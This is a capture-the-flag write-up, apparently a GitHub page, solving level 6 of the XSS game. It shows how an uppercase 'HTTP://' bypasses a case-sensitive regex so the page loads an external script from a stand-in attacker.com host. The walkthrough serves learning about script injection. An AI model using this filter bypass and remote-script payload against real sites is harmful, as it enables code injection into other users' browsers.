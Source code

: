## 🐇 Level 6: Follow the Rabbit

### 🎯 Mission Description  
Some complex web apps dynamically load JavaScript files based on `location.hash` or URL parameters. This can be super dangerous if not handled properly, especially if users can control what's being loaded.

### 🎯 Mission Objective  
Make the application load and execute an external JavaScript file that triggers `alert()`.

### 🧩 Steps  
1. Open the challenge URL:  
   `https://xss-game.appspot.com/level6/frame#/static/gadget.js`

2. View the source and focus on this function:
   ```js
   function includeGadget(url) {
     if (url.match(/^https?:\/\//)) {
       setInnerText(document.getElementById("log"),
         "Sorry, cannot load a URL containing \"http\".");
       return;
     }
     scriptEl.src = url;
     ...
   }
   ```

3. The script blocks any URL starting with `http://` or `https://`. But it **doesn't block uppercase `HTTP`**.

4. Try injecting a JS file like this:  
   ```
   https://xss-game.appspot.com/level6/frame#HTTP://attacker.com/payload.js
   ```

5. Since `.match(/^https?:\/\//)` is **case-sensitive**, it skips over `HTTP://`, so the script loads it without blocking!

6. That file should contain:
   ```js
   alert(1);
   ```

7. Once loaded, the alert box pops up — mission complete! ✅

### 💣 Final Payload  
```
https://xss-game.appspot.com/level6/frame#HTTP://your-domain.com/alert.js
```

_(Note: Host a file at that URL with `alert(1);` content)_

### 📝 Notes  
- Regex filters are case-sensitive unless you specify the `i` flag.
- The vulnerability here is in trusting and directly injecting the `location.hash` into a script's `src`.
- Using alternate casing like `HTTP` bypasses the filter.

**Status: Solved ✅**
